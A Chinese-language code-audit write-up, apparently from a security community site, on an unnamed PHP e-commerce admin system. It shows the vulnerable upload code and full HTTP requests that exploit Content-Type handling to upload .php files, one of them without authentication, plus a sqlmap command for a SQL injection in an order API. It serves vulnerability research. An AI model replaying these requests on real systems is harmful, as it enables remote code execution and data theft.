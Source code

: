 

# PHP代码审计-某电商管理系统0Day分析 - 先知社区

PHP代码审计-某电商管理系统0Day分析

- - -

最新源码下载，最近一次更新在22天前

[![](assets/1709530737-9b3bdee704b1fa39b678eb4a633472e7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301140751-09001834-d792-1.png)

## 代码审计

### 后台文件上传Getshell(web和小程序)

[![](assets/1709530737-386fc25bacafe1a494ad0e585b152073.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142431-5d8a71ea-d794-1.png)

尝试上传点随便上传点东西看看上传接口在哪里，虽然报错了但至少知道了源码的位置

进行代码分析在/app/webapp/modules/system/actions/uploadImgAction.class.php中结合请求包我们尝试进行debug

[![](assets/1709530737-b9a0b2f77e243350871fb02999dc9417.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141145-94cce874-d792-1.png)

在debug过程中发现一个replace语句其中将我们的$\_FILES\['imgFile'\]\['type'\]中的image/换成了点，那么我们的 $\_FILES\['imgFile'\]\['type'\]为请求包中的Content-Type: application/octet-stream部分

```plain
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
```

[![](assets/1709530737-ba52a216fedbcb02cdcbbf3cdb87d467.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141247-b95c5f80-d792-1.png)

并且在替换后有一个拼接操作，进行源码分析

```plain
$imgURL=($_FILES['imgFile']['tmp_name']);
//进行替换操作
$type = str_replace('image/', '.', $_FILES['imgFile']['type']);
//将替换后的内容进行拼接，这里导致了我们后缀可控
$imgURL_name=time().mt_rand(1,1000).$type;
//移动操作
move_uploaded_file($imgURL,$uploadImg.$imgURL_name);
$image = $uploadImg . $imgURL_name;
echo json_encode(array("error"=>$error,"url"=>$image,'message'=>$msg));
```

如果我们将Content-Type: application/octet-stream修改为Content-Type: image/php那么拼接时会变成.php的后缀。

[![](assets/1709530737-58049edeff8ebc43bb10f30658bd2026.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141335-d6137b86-d792-1.png)

构造恶意请求包

```plain
POST /index.php?module=system&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3521672959703348041050404464
Content-Length: 238
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------3521672959703348041050404464
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: image/php

<?php phpinfo(); ?>
-----------------------------3521672959703348041050404464--
```

[![](assets/1709530737-39d4370406dc414f045f3b4b8e69f2b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141505-0b9c0048-d793-1.png)

访问

[![](assets/1709530737-24b8905aec2a886b80485e028877edfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141410-eadbf5e8-d792-1.png)

### 后台文件上传

通过审计我们发现触发文件上传的点是因为存在str\_replace函数那么利用审计工具查看是否还有其他地方存在该漏洞点

```plain
str_replace('image/', '.', $_FILES['file']['type']);
```

[![](assets/1709530737-e1ec5c8487bd9d143db8a55d3c90fcab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141545-237e402c-d793-1.png)

审计/webapp/modules/extension/actions/uploadImgAction.class.php

[![](assets/1709530737-0e811ee62af4d31b220fadf2b0853f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141551-7c46ed92-d925-1.png)

构造请求包

```plain
POST /index.php?module=extension&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: identity
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=--------------------------371918364269932091066326
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 230

----------------------------371918364269932091066326
Content-Disposition: form-data; name="file"; filename="PassWaf_3.php"
Content-Type: image/php

<?php @phpinfo(); ?>
----------------------------371918364269932091066326--
```

[![](assets/1709530737-31f3aa23eda150dcbe70af32cb312967.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141819-7f657130-d793-1.png)

### 未授权文件上传

上述的文件上传只限于后台，如果没有登录无法利用因此尝试寻找是否存在其他上传点，利用审计工具查找关键字

[![](assets/1709530737-06291f502e623dd1740e2aee20c5973a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141919-a37dacfe-d793-1.png)

审计/webapp/modules/api/actions/userAction.class.php

```plain
public function upload(){
        // 查询配置表信息
        $sql = "select * from lkt_config where id = '1'";
        $r = lkt_gets($sql);
        if ($r) {
            $uploadImg = $r[0]->uploadImg;
            // 图片上传位置
            if (empty($uploadImg)) {
                $uploadImg = "../images";
            }
        } else {
            $uploadImg = "../images";
        }

        $imgURL = ($_FILES['file']['tmp_name']);
        $type = str_replace('image/', '.', $_FILES['file']['type']);
        $imgURL_name = time() . mt_rand(1, 1000) . $type;
        move_uploaded_file($imgURL, $uploadImg . $imgURL_name);
        echo $imgURL_name;
    }
```

和刚刚看到的后台内容类似，也是替换后拼接可以控制后缀，尝试上传  
因为是基于TP的因此我们构造接口调用，直接上传报错

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 243
Origin: http://127.0.0.1:8080
Connection: close
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1709530737-ee0054d594656d18c2b434cbfc0ed268.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142054-dc17a2d6-d793-1.png)

修改name为file即可，并且为测试是未授权将Cookie删除,这里虽然只返回了文件名但根据代码的审计发现其路径依旧为/images

```plain
POST /index.php?module=api&action=user&m=upload HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------323553422223467167571808530788
Content-Length: 240
Origin: http://127.0.0.1:8080
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


-----------------------------323553422223467167571808530788
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type:image/php

<?php phpinfo(); ?>
-----------------------------323553422223467167571808530788--
```

[![](assets/1709530737-98e3231451ae0ede6e96cd43f9a0ab89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301142202-04afdac4-d794-1.png)

### 前台SQL注入

代码分析/webapp/modules/api/actions/orderAction.class.php，发现back\_remark字段没有添加过滤

[![](assets/1709530737-c1086e1d25eb23b02996d79f7270f6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141616-8b246254-d925-1.png)

sqlmap语句

```plain
#module=api&action=order&m=ReturnData
python sqlmap.py -u "http://127.0.0.1:8080/index.php?module=api&action=order&m=ReturnData" -data "id=1&oid=1&otype=1&re_type=1&back_remark=1" -p back_remark -dbs -batch
```
